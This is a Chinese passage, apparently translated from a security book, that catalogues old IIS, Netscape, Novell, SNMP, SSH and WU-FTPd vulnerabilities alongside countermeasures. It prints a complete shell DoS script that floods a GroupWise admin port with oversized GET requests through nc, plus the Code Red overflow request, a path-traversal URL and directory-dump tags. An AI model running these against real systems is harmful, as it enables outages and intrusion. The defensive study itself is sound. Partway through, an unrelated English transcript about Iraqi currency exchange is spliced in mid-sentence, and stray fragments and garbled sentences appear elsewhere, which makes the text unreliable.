**漏洞：** 启用了 URL 重定向的 Microsoft NT4.0 系统（带 IIS 4.0）容易受到远程攻击，可能导致系统停止运行或崩溃。这些系统可能运行其他功能，以便在崩溃时自动重启，因此可能会重新启动，使问题不那么明显。

**入侵方式：** Code Red 蠕虫利用启用了 URL 重定向的 IIS 4.0 服务器中的漏洞导致系统崩溃。这种 DoS 攻击不同于允许 Code Red 蠕虫入侵系统的漏洞。

**防范措施：** Microsoft（www.microsoft.com）已发布针对此漏洞的补丁。请将补丁应用到受影响的系统/WWW 系统。URL 重定向默认未启用。在不需要的地方禁用 URL 重定向。定期搜索和查看安全问题、补丁和修复程序也是一种良好的做法。

### 红色代码 II

**概要：** Code Red II 蠕虫可能导致系统完全沦陷。

**攻击状态：** 系统完全沦陷、拒绝服务（DoS）、文件控制、任意代码执行、特权访问。

**漏洞：** Code Red II 蠕虫利用 IIS 索引服务 dll 中的缓冲区溢出漏洞。此漏洞可能影响以下系统：

- 启用 IIS 4.0 或 IIS 5.0 且已安装索引服务的 Windows 2000
- 启用 IIS 4.0 或 IIS 5.0 且已安装 Index Server 2.0 的 Microsoft Windows NT 4.0
- Cisco CallManager、Unity Server、uOne、ICS7750、Building Broadband Service Manager（这些系统运行 IIS）
- Cisco 600 系列 DSL 路由器

**入侵方式：** 感染 Code Red II 蠕虫的主机会尝试连接到随机选择的主机的 TCP 80 端口。如果建立连接，蠕虫会向随机选择的主机发送一个精心构造的 HTTP GET 请求。这个精心构造的 HTTP GET 请求anet 旨在利用 IIS 索引服务中的缓冲区溢出漏洞。

成功渗透远程系统后，Code Red II 蠕虫会检查该系统是否已被感染。如果系统未被感染，它将继续其进程。如果系统已被感染，它将无限期休眠。

在新入侵的系统上，蠕虫将 %SYSTEM%\CMD.EXE 复制到 IIS scripts 和 MSADC 文件夹中的 root.exe。它还会创建一个 explorer.exe 的特洛伊木马副本，并将其复制到 C: 驱动器的根目录（如果 D: 驱动器存在，则也复制到其根目录）。该特洛伊木马允许远程攻击者访问 C: 和 D: 驱动器，从而使攻击者能够修改或删除文件。


 红色代码II还会检查系统的默认语言，以决定产生多少线程以及扫描其他可传播的易感系统多长时间。如果语言是中文（中国）或中文（台湾），它将使用600个线程扫描48小时。对于所有其他语言，它将使用300个线程扫描24小时。如果发现了其他易感系统，则在这些系统上重复此过程。

**对策：** 如果IIS日志文件未被篡改或删除，可以通过查看IIS日志文件来验证红色代码II是否曾尝试感染该机器。日志文件中会包含以下信息：

```
GET /default.ida?XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXX%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%
u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%ubb0
0%u531b%u53ff%u0078%u0000%u00=a
```

如果红色代码II成功感染了系统，则会在系统上创建以下文件：root.exe（root.exe可能来自与红色代码II无关的其他蠕虫或木马）。explorer.exe文件将存在于C：和/或D：驱动器的根目录下。

对策包括以下内容：

- 如果您目前使用防病毒产品，可以咨询其制造商获取自动删除工具。虽然可以手动删除红色代码II蠕虫，但这样做可能是一个漫长的过程；而且，如果您遗漏了任何内容，蠕虫可能会重新感染系统。因此，建议使用自动工具。
- 红色代码II尝试在TCP端口80上进行初始连接，因此请阻止所有不需要访问该端口的机器访问此端口，以减少对红色代码II蠕虫的漏洞。
- 在所有不需要IIS服务的机器上禁用IIS服务。蠕虫可以感染多个系统，因此如果您有一台系统已被感染，请检查所有系统是否存在蠕虫。
- 运行当前的防病毒程序并保持更新。
- 对所有受感染的系统执行所有这些程序。

## 红色代码蠕虫的持续威胁

**概要：** 红色代码蠕虫的两种变体可导致完全的系统入侵。

**攻击状态：** 完全系统入侵、拒绝服务（DoS）、特权访问。

**漏洞：** 据信红色代码变体对时间敏感，并已于2001年8月1日00:00 GMT开始传播。

**入侵：** 红色代码蠕虫利用以下系统上Microsoft IIS索引服务中的缓冲区溢出漏洞。

- 运行Microsoft Windows NT 4.0且启用IIS 4.0或IIS 5.0的系统
- 运行Microsoft Windows 2000（专业版、服务器版、高级服务器版、数据中心服务器版）的系统
- 运行早期版本Microsoft Windows XP的系统

虽然已有补丁可以解决索引服务问题，但数据表明仍有数千个系统存在漏洞。

这些变体在不同时间/日期执行各种活动：

- 从每月1日到19日，红色代码变种将尝试通过连接到随机选择系统的TCP端口80来传播。如果系统正在运行IIS 4.0或5.0，并且未应用补丁，则很可能会被感染。
- 蠕虫的一个副作用可能导致处理请求的第600系列Cisco DSL路由器停止转发数据包。
- 由于蠕虫试图传播，网络设备和路由器上的流量和处理量可能会明显增加。
- 从每月20日到27日，蠕虫将对特定IP地址（198.137.240.91）运行数据包泛洪DoS攻击。
- 在第27天结束时，蠕虫进入休眠状态直到下个月1日。

感染的影响范围从性能下降到拒绝服务和网站被篡改，并可能导致远程攻击者获得管理权限（IIS索引服务的权限）。

**对策：** 将系统从网络中移除，重新启动，并应用适当的补丁。已知版本的红色代码蠕虫是驻留内存的，因此可以通过重新启动系统来清除。系统打补丁后，最好也执行以下建议：

- 红色代码尝试在TCP端口80上进行初始连接，因此请阻止所有不需要访问该端口的机器访问此端口，以减少对红色代码蠕虫的漏洞。
- 在所有不需要IIS服务的机器上禁用IIS服务。
- 蠕虫可以感染多个系统，因此如果您有一台机器已被感染，请检查所有系统是否存在蠕虫。
- 运行当前的防病毒程序并保持更新。
- 对所有系统应用适当的补丁。

## Web服务器入侵

**概要：** 运行IIS的系统上的idq.dll缓冲区溢出可能导致完全的系统入侵。

**攻击状态：** 完全系统入侵。

**漏洞：** idq.dll中处理输入URL的一段代码（IIS索引服务的一部分）包含一个未检查的缓冲区，导致可能发生缓冲区溢出情况。此漏洞影响运行IIS的Windows NT4.0、2000、2000服务器、2000高级服务器、2000数据中心服务器和Windows XP beta。

**入侵：** 远程攻击者利用此漏洞时，服务无需正在运行。因此，即使服务未激活，远程攻击者也可以利用idq.dll中存在的漏洞导致缓冲区溢出，并允许执行任意代码。由于idq.dll在系统上下文中运行，攻击者可以获得管理权限。如果已建立其他信任关系，攻击者还可能入侵其他系统。

**对策：** 应用适用于相应平台的Microsoft补丁（可从www.microsoft.com获取）。如果不需要该服务，请禁用和/或卸载该服务。需要在TCP端口80上建立初始连接，因此请阻止除需要访问的用户以外的所有用户访问该端口，以帮助降低风险。在所有不需要运行IIS的系统上禁用或卸载IIS服务。

### DoS攻击

**概要：** 格式错误的GET请求可能导致服务中断。

**攻击状态：** 服务阻塞。

**漏洞：** IIS版本3/4。

**入侵：** HTTP GET类似于命令行文件获取技术，但通过网络浏览器。攻击者可以故意发起格式错误的GET请求，导致IIS发生DoS情况，这会耗尽所有服务器资源，从而使服务守护进程挂起。

**对策：** 为了解决格式错误的HTR请求漏洞，Microsoft发布了以下解决方法：

1. 从桌面启动Internet服务管理器。
2. 双击Internet信息服务器。
3. 右键单击计算机名称；选择属性。
4. 在主属性下拉框中，选择WWW服务；单击编辑按钮。
5. 单击主目录选项卡，然后单击配置按钮。
6. 在扩展映射中高亮显示包含.HTR的行，然后单击删除按钮。
7. 对于查询"删除选定的脚本映射？"，单击是。单击确定三次。
8. 关闭Internet服务管理器。

### 窃取ASP代码

**概要：** 通过发送备用数据流，黑客可以利用此ASP漏洞窃取源代码。

**攻击状态：** 代码窃取。

**漏洞：** IIS版本3/4。

**入侵：** URL及其包含的数据形成称为*流*的对象。通常，通过引用相关文件名来访问数据流，进一步的命名流对应于*filename:stream*。此漏洞与可以使用*filename::$DATA*访问的未命名数据流有关。攻击者可以打开www.target.com/file.asp::$DATA并获取ASP代码的源代码，而不是输出。

**对策：** Microsoft已修复此漏洞，并建议用户更新到最新的服务包修补程序。

### IIS索引服务DLL中的缓冲区溢出

**概要：** 红色代码蠕虫可以利用IIS中的缓冲区溢出。

**攻击状态：** 未经授权的访问、任意代码执行、拒绝服务（DoS）。

**漏洞：** 红色代码蠕虫利用以下系统上Microsoft IIS索引服务中的缓冲区溢出漏洞：


 - 已启用 IIS 4.0 或 IIS 5.0 并安装 Index Server 2.0 的 Microsoft Windows NT 4.0

- 已启用 IIS 4.0 或 IIS 5.0 并安装索引服务的 Windows 2000

- Cisco CallManager、Unity Server、uOne、ICS7750、Building Broadband Service Manager（这些系统运行 IIS）

- 未打补丁的 Cisco 600 系列 DSL 路由器

**入侵：** 感染 Code Red 蠕虫的主机将尝试在 TCP 80 端口上连接随机选择的主机。如果连接建立，蠕虫会向该随机选择的主机发送一个精心构造的 HTTP GET 请求。该精心构造的 HTTP GET 请求旨在利用 IIS 索引服务中的缓冲区溢出漏洞。

成功渗透远程系统将导致 Code Red 蠕虫在受妥协系统上开始执行。

在许多运行英语语言的系统上，网页将被修改以包含以下信息：

```
HELLO! Welcome to http://www.worm.com! Hacked By Chinese!
```

Code Red 采取的其他行动包括以下这类时间敏感的活动：

- 从每月 1 日到 19 日，Code Red 变种会尝试通过连接随机选择系统的 TCP 80 端口来传播。如果系统正在运行 IIS 4.0 或 5.0 且未应用补丁，它很可能会被感染。

- 蠕虫的一个副作用可能导致处理该请求的 Cisco 600 系列 DSL 路由器停止转发数据包。

- 由于蠕虫尝试传播，网络设备和路由器上的流量和处理量可能会明显增加。

- 从每月 20 日到 27 日，蠕虫将运行针对特定 IP 地址（198.137.240.91）的数据包洪泛 DoS 攻击。

- 在第 27 天结束时，蠕虫进入休眠状态，直到下月 1 日。

感染的影响范围包括性能下降到拒绝服务和网页被篡改，并可能导致远程攻击者获得管理权限（IIS 索引服务的权限）。

**对策：** 将系统从网络中移除，重新启动并应用适当的补丁。已知版本的 Code Red 蠕虫是驻留内存的，因此可以通过重新启动系统来清除。系统打好补丁后，还建议执行以下操作：

- Red 尝试在 TCP 80 端口上进行初始连接，因此对该端口不需要访问权限的所有机器阻止该端口，以减少对 Code Red 蠕虫的脆弱性。

- 在所有不需要 IIS 服务的机器上禁用 IIS 服务。

- 蠕虫可以感染多个系统，因此如果有一台系统已被感染，请检查所有系统是否有蠕虫。

- 运行当前的防病毒程序并保持更新。

对所有受感染的系统执行这些步骤。

#### **IIS 索引服务中的通用缓冲区溢出**

**摘要：** IIS 索引服务 dll 中的缓冲区溢出漏洞可能导致完整的系统 compromise。

**攻击状态：** 完整的系统 compromise，任意代码执行。

**漏洞：** 运行以下软件的系统容易受到缓冲区溢出攻击：

- 已启用 IIS 4.0 或 IIS 5.0 的 Microsoft Windows NT 4.0

- Microsoft Windows 2000（Professional、Server、Advanced Server、Datacenter Server）

- 早期版本的 Microsoft Windows XP

**入侵：** 远程攻击者可以在 idq.dll 中制造缓冲区溢出条件，该文件随大多数 IIS 4.0 和 5.0 实现默认安装。如果成功，攻击者可能能够以 idq.dll 的权限运行任意代码，通常是本地系统安全上下文，这可以让攻击者完全控制系统。

由于许多系统具有额外的信任关系，这些系统也可能被 compromise。由于缓冲区溢出发生在请求任何索引功能之前，索引服务不需要正在运行。这使得该漏洞特别危险。

IIS 服务器守护进程必须处于活动状态并运行，且具有 .ida 和 .idq 文件的脚本映射。

**对策：** Microsoft 已发布针对此漏洞的补丁。下载并为您的系统安装适当的补丁。在不需要的地方禁用并卸载 IIS 和索引服务；如果需要，仅允许需要它的系统访问。此外，在不需要访问的地方阻止 TCP 80 端口，以降低此攻击的风险。

#### **DoS Storm 蠕虫**

**摘要：** DoS Storm 蠕虫利用未应用 Web 服务器文件夹遍历适当安全补丁的 Microsoft IIS 系统，可能导致拒绝服务（DoS）。

**攻击状态：** 拒绝服务。

**漏洞：** 感染 DoS Storm 蠕虫的系统随后被用于对 www.microsoft.com 发动 DoS 攻击。

**入侵：** DoS Storm 蠕虫修改许多系统参数以启用重启时执行。其他执行参数包括设置 tftpd TCP 69 端口；启动扫描程序，扫描主机漏洞；启动 telnetd，默认 TCP 端口为 23001；以及在端口 2300 上启动 consoled，两者都带有用户名和密码。DoS Storm 蠕虫还启动 bombd，向 gates@microsoft 发送淫秽电子邮件，并向数据存储中的每个地址发送电子邮件。

**对策：** 如果您目前使用防病毒产品，请向其制造商咨询自动移除工具。虽然可以手动移除 DoS Storm 蠕虫，但这样做可能是一个漫长的过程；而且如果您遗漏了任何内容，蠕虫可能会重新感染系统。因此，建议使用自动工具。其他对策包括：

- 在所有不需要 IIS 服务的机器上禁用 IIS 服务。

- 蠕虫可以感染多个系统，因此如果有一台系统已被感染，请检查所有系统是否有蠕虫。

- 运行当前的防病毒程序并保持更新。

对所有受感染的系统执行这些步骤。

**摘要：** IIS 中的多余解码漏洞可能导致未授权访问。

**攻击状态：** 未授权访问，任意代码执行。

**漏洞：** 当用户尝试执行服务器程序或脚本时，IIS 会运行一个 pass。执行解码 pass，以及随后的多余解码 pass。运行未修补版本 IIS 的 Windows 系统可能会受到影响。

**入侵：** 远程攻击者可以利用 IIS 中与第二次、多余的解码 pass 相关的漏洞，使攻击者获得未授权访问，可能具有 Everyone 组的权限，方法是构造一个特殊请求。该请求可能通过初始安全检查并获得对不应有访问权限的服务的访问。这可以使攻击者在 IUSR_machinename 上下文中执行任意代码。

**对策：** Microsoft 已为受影响的系统发布补丁。为操作系统应用适当的补丁。使用最新的防病毒Exactly – money from the sale of local currency. Why, for example, the... and I'm not quite sure where Iraq got them because the local currency were worthless, but who knows - but they needed to actually exchange, so if it was from the Bank of England, the dollars that the Iraqis would turn in, they'd actually buy the dinar for pounds. The exchange, though it's not like retail banking, it's just going back to the Bank of England. So, the Bank of England would actually end up with the euros and the Iraqis would end up with the pounds and then they'd actually have to exchange it. It's quite confusing, but in retail banking it's just the same thing - the local guy is actually selling, the foreign exchange... Actually, it's a really interesting concept of where the money actually comes from. But that's, that's a different story.

All right - post war in Iraq. It's fascinating to see, because you can't print the local money and all of a sudden the dollar and euro starts flooding in. You can imagine a lot of the business... Well, anyway, during the war the dinar started to strengthen against the dollar and of course we're trying to encourage that because of... Program

Okay, so that's, but that's just the process of the exchange. What I wanted to mention is the CB... Because I noticed the Central Bank was itself selling lots of dollars and doing other transactions. I mean, to what extent is the Central Bank vulnerable, you know, to exploitation?

Well any, any central bank can be used as a vehicle to actually to help aid and support the acquisition of hard currency, and those elements that would do that would be an organized criminal. So, that is a prime target from that perspective.拍摄日期: 2010-05-20,1,10:21:42

Now in Iraq, what is the value of the dinar? It varies and it's floated. But, in actual fact, some would say it's deliberately suppressed to be lower than its true value against the U.S. dollar because the U.S. wants Iraqi goods to be cheap. It's the same logic, the same reason why the Chinese will... devalue, will deliberately devalue the yuan to keep their exports cheap. Why the Japanese in the 80s... Got it. So in Iraq, while the dinar is floated, it is actually maintained far... But is that a formal policy? Is there like a committee?

Not formal. But if you look at the percentage, the value is at 1,170...
antivirus program to scan the system for potential malicious code that could have been applied in the wake of such an attack. The effects of this vulnerability can be limited (not necessarily avoided) by employing sound filtering procedures. Use a firewall (or router capable of port filtering) to block unnecessary and unwanted access to the system.

#### **Sadmind/IIS 蠕虫**

**摘要：** Sadmind/IIS 蠕虫可导致 Windows 系统上的未授权访问和 Solaris 系统上的未授权 root 访问。

**攻击状态：** 未授权访问，未授权 root 访问，任意代码执行，网页内容被篡改。

**漏洞：** 该蠕虫利用 Solstice sadmind 程序缓冲区溢出漏洞感染 Solaris 系统，随后尝试感染运行 IIS 的 Microsoft 系统。

**入侵：** 成功感染 Solaris 系统后，蠕虫导致 Solaris 系统主动尝试感染其他 Solaris 系统并攻击运行 IIS 的 Microsoft 系统。受感染的 Solaris 系统可能在 syslog 中包含类似以下的条目：

```
May 15 00:30:01 carrier.example.com inetd[139]: /usr/sbin/sadmind: Bus Error - core dumped
May 15 00:30:01 carrier.example.com last message repeated 1 time
May 15 00:30:03 carrier.example.com last message repeated 1 time
May 15 00:30:06 carrier.example.com inetd[139]: /usr/sbin/sadmind: Segmentation Fault - core dumped
May 15 00:30:03 carrier.example.com last message repeated 1 time
May 15 00:30:06 carrier.example.com inetd[139]: /usr/sbin/sadmind: Segmentation Fault - core dumped
May 15 00:30:08 carrier.example.com inetd[139]: /usr/sbin/sadmind: Hangup
May 15 00:30:08 carrier.example.com last message repeated 1 time
May  7 02:44:14 carrier.example.com inetd[139]: /usr/sbin/sadmind: Killed
```


#### 溢出漏洞

**概要：** Microsoft IIS 5.0 中的缓冲区溢出漏洞可能导致系统完全被攻陷。

**攻击状态：** 系统完全被攻陷，任意代码执行。

**漏洞：** 运行 Windows 2000 和 IIS 5.0 的系统在 IPP 扩展中存在缓冲区溢出漏洞。

**入侵：** 远程攻击者可以利用该缓冲区溢出漏洞，从而运行任意代码以获取 IPP 服务的权限，通常是本地系统安全上下文。这可以使攻击者获得对该系统的管理控制权。

由于目前还存在公开可用的"概念验证"，强烈建议立即在您控制的系统上处理此漏洞。

**对策：** Microsoft 已发布补丁来解决此漏洞。在所有受影响的系统上应用该补丁，并在不需要 IIS 服务的系统上禁用和卸载该服务。

#### 木马上传

**概要：** 黑客可以在存在漏洞的 IIS 守护进程上执行主观编码。

**攻击状态：** 未经授权的访问和代码执行。

**漏洞：** IIS 版本 4。

**入侵：** 守护进程的缓冲区被编程为分配系统内存以处理传入数据。当程序接收到异常大量的数据时，这可能导致"缓冲区溢出"事件。IIS 4.0 的 .htr/ism.dll 代码中存在一个可被远程利用的缓冲区溢出问题。目前，互联网上超过 85% 的 IIS Web 服务器守护进程通过将调试器的指令指针 (eip) 重定向到已加载 dll 的地址而容易受到攻击。更多信息，请参阅 ftp://ftp.technotronic.com/microsoft/iishack.asm。

**对策：** Microsoft 已修复此漏洞，并建议用户更新到最新的服务包热修复程序。

## Netscape Enterprise Server

本节涵盖针对两种常见 Netscape Enterprise Server (www.netscape.com/enterprise) 漏洞利用的防御措施：缓冲区溢出和结构发现。

### PHP 中的多个漏洞

**概要：** 运行 PHP 脚本语言的 Web 服务器——包括但不限于 IIS、Apache、Netscape/iPlanet、Caudium 和 OmniHTTPd——可能允许入侵者执行任意代码。

**攻击状态：** 未经授权的访问和拒绝服务 (DoS)。

**漏洞：** PHP 是一种脚本语言，可用于广泛的 Web 平台。该语言中的 php_mime_split 函数可能允许入侵者获取特权访问权限（Web 服务器的权限）。不速之客随后可以在设备上执行任意代码，引发诸多问题。

**入侵：** 利用 Web 服务器的权限，潜在的作恶者可以执行任意代码，这可能导致执行非预期操作，或导致 Web 服务器不可用，这被归类为 DoS 攻击。

**对策：** 如有可能，升级到版本 4.1.2；如果无法升级，可根据您运行的 PHP 版本（3.0 或更高版本）获取相应的补丁。如果应用补丁不可行，请在 php.ini 文件中使用 file_uploads=off 命令禁用文件上传支持。CVS 版本 4.20-dev 的用户目前不受影响。

#### 缓冲区溢出

**概要：** 较旧版本的 Netscape 可能存在缓冲区溢出攻击漏洞。

**攻击状态：** 缓冲区溢出。

**漏洞：** 先前的 *NIX 版本。

**入侵：** 本次入侵的 CGI 脚本来源于 *Hack Attacks Revealed, Second Edition*。它最初由黑客/程序员 Dan Brumleve 编写，可用于测试旧版 *NIX 风格的缓冲区溢出完整性。

**对策：** 应用来自 Netscape 的 Enterprise 3.6 SP 2 SSL 握手修复程序。补丁可在 www.iplanet.com/downloads/patches 找到（参见图 5.4）。

### 结构发现

**概要：** 在发现阶段，Netscape Enterprise Server 可能被利用来显示目录和子目录列表，以聚焦基于 Web 的攻击。

**攻击状态：** 发现。

**漏洞：** Netscape Enterprise Server 版本 3x/4。

**入侵：** 如果恶意黑客操纵某些标签，启用了 Web Publishing 的 Netscape Enterprise Server 可能被入侵以显示目录和子目录列表：

```
http://www.example.com/?wp-cs-dump
```

这应该能显示该 Web 服务器上根目录的内容。此外，还可以获取子目录的内容。其他可利用的标签包括：

- ?wp-ver-info
- ?wp-html-rend
- ?wp-usr-prop
- ?wp-ver-diff
- ?wp-verify-link
- ?wp-start-ver
- ?wp-stop-ver
- ?wp-uncheckout

**对策：** 为快速缓解，禁用 Web Publishing。

## Novell Web Server

此处列出的 Novell Web Server (www.novell.com) 漏洞利用防御措施包括针对 DoS、漏洞发现和远程溢出攻击的防御。

#### DoS 攻击

**概要：** Novell 服务可能遭受 DoS TCP/UDP 攻击而被剥夺。

**攻击状态：** 系统崩溃。

**漏洞：** Netware 版本 4.11/5。

**入侵：** 使用 Novell Web Server 并运行附带的 *tcpip.nlm* 模块会打开一个 DoS 漏洞，允许攻击者攻击 echo 和 chargen 服务。

echo 服务与 TCP 和 UDP 端口 7 相关联。对于 TCP，该服务监听与端口 7 的连接，然后发回它接收到的任何数据。对于 UDP 端口 7 数据报服务，服务器将在应答数据报中发回它接收到的任何数据。该服务通常用于制造拒绝服务 (DoS)。echo 漏洞的一个示例是当攻击者连接到端口 7 (echo) 时，传输的字符通常会被发送回（回显）到源端。这可以被滥用，例如，通过从系统的 echo 服务与 chargen 服务（参见下文端口 19）形成循环，或远程地通过从另一目标的 chargen 服务向一个目标的 echo 服务发送欺骗性数据包。

端口 19 及其对应的服务守护进程 chargen 看起来足够无害。该服务的基本操作可以很容易地从其作为*字符流生成器*的角色中推断出来。不幸的是，该服务可以被操纵以向另一服务或另一台机器发送数据，形成无限循环。显然，这可以被归类为另一种 DoS 攻击，因为结果将消耗带宽和系统处理资源。

使用 Arny 的 *armudp.c* 涉及向主机的 chargen 端口发送 UDP 数据包，数据包的源端口设置为 echo，源地址设置为本地主机或广播。源地址设置为外部主机的 UDP 数据包不太可能被过滤，这将是攻击者的常见选择。

**对策：** 禁用 echo 和 chargen 服务（更多信息参见第 1 章），或在 Novell 服务器上安装 IP 数据包过滤服务。

### 漏洞发现

**概要：** 在发现阶段，Novell Web Server 可能被利用以显示服务器上的完整 Web 路径，以聚焦基于 Web 的攻击。

**攻击状态：** 发现。

**漏洞：** GroupWise 版本 5.2 和 5.5。

**入侵：** 模块 GWWEB.EXE 中的 help 参数会显示服务器上的完整 Web 路径：

 http://server/cgi-bin/GW5/GWWEB.EXE?HELP=bad-request

常见的回复如下：

```
File not found: SYS:WEB\CGI-BIN\GW5\US\HTML3\HELP\BAD-REQUEST.HTM
```

根据本例返回的路径，攻击者可以通过发送以下请求来获取主网站界面：

```
http://server/cgi-bin/GW5/GWWEB.EXE?HELP=../../../../../../index
```

**对策：** 升级到 Novell GroupWise Enhancement Pack 5.5 SP1。

## 远程溢出

**概要：** 远程黑客可以通过向远程管理端口发送大量 GET 请求，利用基于 Web 的访问服务造成 DoS 缓冲区溢出。

**黑客状态：** 未授权访问和代码执行。

**漏洞：** GroupWise 5.2 和 5.5 版本。

**入侵：** Netware 服务器的远程 HTTP（通常为端口 8008）管理协议存在潜在的缓冲区溢出漏洞。以下是此漏洞利用代码的列表：

**nwtcp.c**

```sh
#!/bin/sh

SERVER=127.0.0.1
PORT=8008
WAIT=3

DUZOA=`perl -e '{ print "A"x4093}'`
MAX=30

while ; do
  ILE=0
  while [ $ILE -lt $MAX ]; do
    (
      (
        echo "GET /"
        echo $DUZOA
        echo
      ) | nc $SERVER $PORT &
      sleep $WAIT
      kill -9 $!
    ) &>/dev/null &
    ILE=$[ILE+1]
  done
  sleep $WAIT
done
```

**对策：** 升级到 Novell GroupWise Enhancement Pack 5.5 SP1。

## O'Reilly WebSite Professional 攻击

此处我们介绍的 O'Reilly 对策针对的是常见的 WebSite Professional（http://website.oreilly.com）DoS 漏洞利用。

#### DoS 攻击

**概要：** WebSite Professional 容易受到 DoS 攻击，可导致 CPU 立即拥塞，造成服务中断。

**黑客状态：** 严重拥塞。

**漏洞：** 3.0 版本之前的所有修订版本。

**入侵：** 此 DoS 渗透攻击（*fraggle.c*，源自《*Hack Attacks Revealed, Second Edition*》）会导致系统 CPU 利用率立即飙升至 100%。多次 DoS 攻击会造成持续的 CPU 拥塞，从 68% 到 85%，如果同时受到 HTTP 请求洪泛攻击，最高可达 100%。

**对策：** 通过升级到 WebSite Professional 3 来修复此 DoS 攻击。

## 操作系统

本章的下一个目标是学习针对操作系统特定漏洞利用的锁定程序。我们将讨论以下操作系统的测试团队程序：通用 *NIX、AIX、BSD、HP-UX、IRIX、Linux、Macintosh、Windows、Novell、OS/2、SCO 和 Solaris。

### *NIX

本节涵盖各种 *NIX 版本，首先是一般性缺陷列表。

#### 简单网络管理协议（SNMP）漏洞

**概要：** 在使用 SNMP v1 与多个启用 SNMP 的设备时，存在多个漏洞。

**黑客状态：** 多个漏洞，包括但不限于未授权访问、拒绝服务（DoS）、严重拥塞和系统停止/重启。

**漏洞：** 简单网络管理协议（SNMP）用于管理和监控符合 SNMP 的网络设备。这些设备可以包括"可管理"路由器、交换机、文件服务器、CSU/DSU、工作站、存储区域网络（SAN）设备以及许多其他设备。运行 SNMP 协议的设备会向启用 SNMP 的监控设备发送陷阱消息。这些监控设备解释陷阱，以便评估、处理和报告获取的信息。

**入侵：** SNMP 使用团体字符串，类似于使用用户ID/密码。通常，有三种类型的团体字符串：只读、读写和 SNMP 陷阱。这些字符串不仅帮助 SNMP 设备确定谁（哪个字符串）可以访问它们，还确定了允许的访问类型（只读、读写或 SNMP 陷阱信息）。许多制造商使用 SNMP 的设备存在多个漏洞。不同设备可能存在不同的漏洞。漏洞可能导致（但不限于）DoS、未授权访问、系统停止/重启和配置控制。某些漏洞可能不需要使用团体字符串。此外，许多设备在出厂时启用了"public"只读团体字符串；如果未从默认值更改，此设置至少会使设备对任何使用公共字符串的设备"可见"，包括未授权用户。

**对策：** 由于此漏洞影响许多供应商，首要建议是咨询您的供应商。还有一些可以遵循的一般准则：

- 如果不使用 SNMP，则禁用它。如果使用，则应用适当的补丁（咨询供应商）。
- 将字符串从默认值更改，并确保在需要通信和共享信息的所有设备上保持一致。
- 为 SNMP 流量使用单独的管理网络，而不是允许其在生产网络上运行。
- 在适当的地方过滤入站和出站 SNMP 流量。这可以使用端口过滤技术完成，或仅允许来自可信来源的 SNMP 流量。
- 在实施任何更改之前，先制定好计划。

#### 安全外壳（SSH）守护进程漏洞

**概要：** Secure Shell（SSH）守护程序中 SSL 修改器存在多个漏洞。

**黑客状态：** 未授权的 root 访问、拒绝服务（DoS）、任意代码执行和完全系统入侵。

**漏洞：** SSH1 协议中 SSL 修改器存在漏洞，攻击者可以利用 SSH 守护进程权限执行任意代码。此外，通过针对补偿攻击检测器 ICS 漏洞的暴力攻击，进行完整的系统入侵。

**入侵：** 此处讨论了许多 SSH 漏洞中的两种。

首先，SSH1 协议实现中 SSL 修改器相匹配手术存在一个修改器整数溢出的整数溢出漏洞远程整数溢出漏洞。函数存储连接信息在一个动态哈希表中。审查此表以帮助检测和响应CRC32攻击。攻击者可以发送一个数据包，导致 SSH 创建一个大小为零的哈希表。当函数尝试在哈希表中存储信息时，可以修改数据库调用的返回值。这允许使用与 SSH 相同的权限（通常为 root）执行任意代码。

其次，补偿攻击检测器容易受到漏洞攻击。使用暴力破解攻击，攻击者可以获得对受影响计算机的完全访问权限。报告显示，系统日志中可能有类似以下内容的消息：

```
hostname sshd[xxx]: Disconnecting: Corrupted check bytes on input.
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network
    attack detected
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network
    attack detected
```

一旦系统入侵成功，报告显示会安装手术、设计用于查找其他易受攻击系统的网络扫描设备，以及其他旨在隐藏入侵者行为并允许未来访问的项目。

**对策：** 查看制造商网站获取最新安全信息。如果可能，升级到最新版本的 SSH。升级后，确保使用 SSHv2，因为 SSH2 可能使用 SSH1 实现信息。如果无法升级，请为正在使用的 SSH 版本应用所有最新补丁。SSH 修改器若不使用，可以禁用 SSH 访问。

#### WU-FTPd 漏洞

**概要：** 华盛顿大学文件传输协议守护进程（WU-FTPd）中的漏洞可导致远程 root 访问。

**黑客状态：** 未授权的 root 访问、任意代码执行、服务停止。

**漏洞：** WU-FTP 守护进程被许多 UNIX 和 Linux 系统用于提供 FTP 服务，通常具有 root 权限。存在漏洞可能允许远程攻击者在受影响的系统上执行任意代码。

**入侵：** 两个漏洞可能导致这种情况。首先，WU-FTPd 不能正确处理文件名*globbing*，这是一个用于表示选择多个文件和位置能力的术语。然而，WU-FTP 不使用操作系统内的库；相反，它实现自己的代码来完成此功能。与许多进程一样，WU-FTPd 创建一个堆来存储此多选信息。使用堆信息作为比较，代码可以评估和识别无效的语法信息。可以发送一个特定字符串到 globbing 代码，使其不会发生故障。这样做会导致代码像没有发生错误一样运行。发生这种情况时，可以释放未分配的内存。然后该区域可以用来放置数据，允许攻击者以与 WU-FTP 守护进程相同的权限执行任意代码。

第二个yw WU-FTP 漏洞可能在 WU-FTP 配置为使用 auth 或 authd（RFC931）身份验证接受入站连接时发生。当 WU-FTP 配置为使用此身份验证，并在调试模式下运行时，会记录连接信息。对响应中包含的信息未执行充分的输入验证。因此，攻击者可以设计一个响应，允许以与 WU-FTP 守护进程相同的权限执行任意代码。

用户可以登录具有这些漏洞的服务器，包括匿名访问。如果尝试不成功，可能会导致 FTP 服务停止。

**对策：** 执行以下操作：

- 安装 UNIX 版本供应商提供的最新补丁。WU-FTP 可以编译运行在多个 UNIX 或 Linux 版本上；如果您的供应商未随其版本提供 WU-FTP，您可以应用可用的源代码补丁。
- 如果不需要 WU-FTP 访问，请禁用它。
- 如果使用 WU-FTP，则仅向需要它的用户授予访问权限。这包括禁用匿名访问。

### CDE 子进程控制服务中的缓冲区溢出

**概要：** CDE 子进程控制服务中存在缓冲区溢出漏洞。


 **黑客状态：** 未授权 root 访问、任意代码执行和系统崩溃。

